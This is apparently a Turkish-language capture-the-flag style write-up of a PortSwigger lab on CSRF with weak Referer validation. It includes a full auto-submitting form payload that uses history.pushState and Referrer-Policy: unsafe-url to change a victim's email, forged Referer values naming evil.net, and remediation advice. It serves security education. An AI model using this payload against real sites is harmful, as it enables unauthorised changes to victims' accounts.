





# CSRF with broken Referer validation

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda email değiştirme fonksiyonunda CSRF token gibi unpredictable bir koruma bulunmuyor. Uygulama bunun yerine `Referer` header'ını kontrol ederek isteğin hedef siteyle ilişkili olup olmadığını doğrulamaya çalışıyor.

Kontrol hatalı uygulanmış durumda: Uygulama `Referer` header'ının gerçekten hedef origin ile başlayıp başlamadığını doğrulamak yerine, hedef domain değerinin header içinde herhangi bir yerde geçmesini yeterli görüyor. Bu nedenle saldırgan kendi exploit server URL'ine hedef domain'i path veya query parçası olarak ekleyip tarayıcının tam URL'i `Referer` olarak göndermesini sağlayarak kontrolü bypass edebiliyor.

## 3. Kullanılan Payload

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

```html
<form action="https://0a6800fc046346fa82ac48d1004100ec.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="victimnewemail77@gmail.com">
</form>

<script>
    history.pushState(
        "",
        "",
        "/?0a6800fc046346fa82ac48d1004100ec.web-security-academy.net"
    );

    document.forms[0].submit();
</script>
```

## 4. Exploitation Steps

1. Uygulamaya `wiener:peter` bilgileriyle giriş yaptım ve `/my-account/change-email` isteğini Burp Suite ile yakaladım. İstek içinde CSRF token bulunmadığını, email değişikliğinin yalnızca `email` parametresiyle yapıldığını gördüm. Normal akışta `Referer` header'ı hedef uygulamanın kendi origin'ini içerdiği için istek kabul ediliyor ve `302 Found` cevabı dönüyordu.

```http
POST /my-account/change-email HTTP/2
Host: 0a6800fc046346fa82ac48d1004100ec.web-security-academy.net
Cookie: session=...
Origin: https://0a6800fc046346fa82ac48d1004100ec.web-security-academy.net
Referer: https://0a6800fc046346fa82ac48d1004100ec.web-security-academy.net/my-account?id=wiener

email=asdas%40gmail.com
```



2. `Referer` header'ını saldırgan domain'i olacak şekilde değiştirdim. Uygulama bu isteği `400 Bad Request` ile reddetti ve response içinde `"Invalid referer header"` mesajını döndürdü. Bu davranış, uygulamanın CSRF koruması olarak `Referer` doğrulamasına güvendiğini gösterdi.

```http
Referer: https://evil.net
```



3. Daha sonra `Referer` header'ını `https://evil.net.0a6800fc046346fa82ac48d1004100ec.web-security-academy.net/my-account?id=wiener` şeklinde değiştirdim. Bu değer gerçek bir hedef origin'i temsil etmese de içinde hedef domain geçtiği için uygulama isteği kabul etti. Böylece doğrulamanın origin bazlı değil, zayıf bir substring kontrolüyle yapıldığını doğruladım.

```http
Referer: https://evil.net.0a6800fc046346fa82ac48d1004100ec.web-security-academy.net/my-account?id=wiener
```



4. Exploit server üzerinde otomatik gönderilen bir POST formu hazırladım. Response header'ına `Referrer-Policy: unsafe-url` ekledim; bu sayede tarayıcı hedef uygulamaya form gönderirken exploit sayfasının tam URL'ini `Referer` olarak gönderecekti. Ardından `history.pushState()` ile exploit sayfasının URL'ine hedef domain'i query string olarak ekledim.

```html
<form action="https://0a6800fc046346fa82ac48d1004100ec.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="victimnewemail77@gmail.com">
</form>

<script>
    history.pushState(
        "",
        "",
        "/?0a6800fc046346fa82ac48d1004100ec.web-security-academy.net"
    );

    document.forms[0].submit();
</script>
```



5. Exploit'i kurbana gönderdim. Kurban exploit sayfasını açtığında URL'e hedef domain query olarak eklendi ve form otomatik olarak email değiştirme endpoint'ine gönderildi. `Referrer-Policy: unsafe-url` nedeniyle request'in `Referer` header'ı exploit server'ın tam URL'ini içerdi. Bu URL içinde hedef domain geçtiği için uygulamanın hatalı Referer kontrolü bypass edildi ve kurbanın email adresi değiştirildi.



## 5. Impact

`Referer` header'ı üzerinde yapılan zayıf substring kontrolleri CSRF koruması için güvenilir değildir. Saldırgan, kendi kontrolündeki URL'in path veya query bölümüne hedef domain'i ekleyerek bu tür doğrulamaları kandırabilir. Bu labda email adresi değiştirildi; benzer zafiyetler hesap ayarlarının yetkisiz değiştirilmesine veya daha kritik state-changing işlemlerin kurban oturumuyla tetiklenmesine yol açabilir.

## 6. Remediation

State-changing işlemler için session'a bağlı, tahmin edilemez CSRF token kullanılmalı ve sunucu tarafında doğrulanmalıdır. `Referer` veya `Origin` header'ları ek kontrol olarak kullanılacaksa tam origin karşılaştırması yapılmalı, yalnızca string içinde domain aramakla yetinilmemelidir. Referer doğrulamasında URL parse edilmeli; scheme, host ve port değerleri beklenen origin ile birebir karşılaştırılmalıdır.
